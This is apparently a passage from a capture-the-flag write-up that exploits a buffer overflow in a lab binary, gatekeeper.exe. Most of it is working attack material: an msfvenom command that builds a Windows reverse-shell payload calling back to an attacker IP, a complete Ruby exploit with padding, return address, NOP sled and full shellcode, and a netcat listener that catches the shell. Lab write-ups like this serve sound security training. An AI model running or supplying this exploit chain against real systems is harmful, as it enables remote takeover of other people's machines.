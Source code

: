 Now, we are ready to get a reverse shell aka own our Windows VM machine via BOF. Let's generate our payload, don't forget to change LHOST to your Kali machine IP address:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.105 LPORT=5555 -f rb -a x86 --platform windows -b "\x00\x0A"

-b option allows us to exclude the badchars we have found earlier.
```
![Shellcode](shellcode.png) 

We need to copy and paste this into our getting a shell template:
```Ruby
buff = "A"*146
buff += "\xc3\x14\x04\x08"
buff += "\x90"*8
buff += "\xbb\xfb\xad\xee\xa2\xda\xda\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x52\x31\x5a\x12\x83\xc2\x04\x03\xa1\xa3\x0c\x57\xa9" +
"\x54\x52\x98\x51\xa5\x33\x10\xb4\x94\x73\x46\xbd\x87\x43" +
"\x0c\x93\x2b\x2f\x40\x07\xbf\x5d\x4d\x28\x08\xeb\xab\x07" +
"\x89\x40\x8f\x06\x09\x9b\xdc\xe8\x30\x54\x11\xe9\x75\x89" +
"\xd8\xbb\x2e\xc5\x4f\x2b\x5a\x93\x53\xc0\x10\x35\xd4\x35" +
"\xe0\x34\xf5\xe8\x7a\x6f\xd5\x0b\xae\x1b\x5c\x13\xb3\x26" +
"\x16\xa8\x07\xdc\xa9\x78\x56\x1d\x05\x45\x56\xec\x57\x82" +
"\x51\x0f\x22\xfa\xa1\xb2\x35\x39\xdb\x68\xb3\xd9\x7b\xfa" +
"\x63\x05\x7d\x2f\xf5\xce\x71\x84\x71\x88\x95\x1b\x55\xa3" +
"\xa2\x90\x58\x63\x23\xe2\x7e\xa7\x6f\xb0\x1f\xfe\xd5\x17" +
"\x1f\xe0\xb5\xc8\x85\x6b\x5b\x1c\xb4\x36\x34\xd1\xf5\xc8" +
"\xc4\x7d\x8d\xbb\xf6\x22\x25\x53\xbb\xab\xe3\xa4\xbc\x81" +
"\x54\x3a\x43\x2a\xa5\x13\x80\x7e\xf5\x0b\x21\xff\x9e\xcb" +
"\xce\x2a\x30\x9b\x60\x85\xf1\x4b\xc1\x75\x9a\x81\xce\xaa" +
"\xba\xaa\x04\xc3\x51\x51\xcf\x2c\x0d\x59\x66\xc5\x4c\x59" +
"\x6d\xa6\xd8\xbf\xe7\xd8\x8c\x68\x90\x41\x95\xe2\x01\x8d" +
"\x03\x8f\x02\x05\xa0\x70\xcc\xee\xcd\x62\xb9\x1e\x98\xd8" +
"\x6c\x20\x36\x74\xf2\xb3\xdd\x84\x7d\xa8\x49\xd3\x2a\x1e" +
"\x80\xb1\xc6\x39\x3a\xa7\x1a\xdf\x05\x63\xc1\x1c\x8b\x6a" +
"\x84\x19\xaf\x7c\x50\xa1\xeb\x28\x0c\xf4\xa5\x86\xea\xae" +
"\x07\x70\xa5\x1d\xce\x14\x30\x6e\xd1\x62\x3d\xbb\xa7\x8a" +
"\x8c\x12\xfe\xb5\x21\xf3\xf6\xce\x5f\x63\xf8\x05\xe4\x93" +
"\xb3\x07\x4d\x3c\x1a\xd2\xcf\x21\x9d\x09\x13\x5c\x1e\xbb" +
"\xec\x9b\x3e\xce\xe9\xe0\xf8\x23\x80\x79\x6d\x43\x37\x79" +
"\xa4"


require 'socket'

TCPSocket.open('192.168.0.227',31337){ |s| s.puts buff}
```
Before running the Ruby script, let's start a reverse shell in another terminal:
```bash
nc -nlvp 5555
```
![nc ReverseShell](ncReverseShell.png)

Now, let's run our Ruby script:
```ruby shellcode.rb
```
When we check our nc listener, we can see that we have a reverse shell now!...

![Revershell](reverseshell.png)

Woohoo, we are connected to this machine by exploiting BOF vulnerability that gatekeeper.exe has so let's try our final script on THM platform now.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
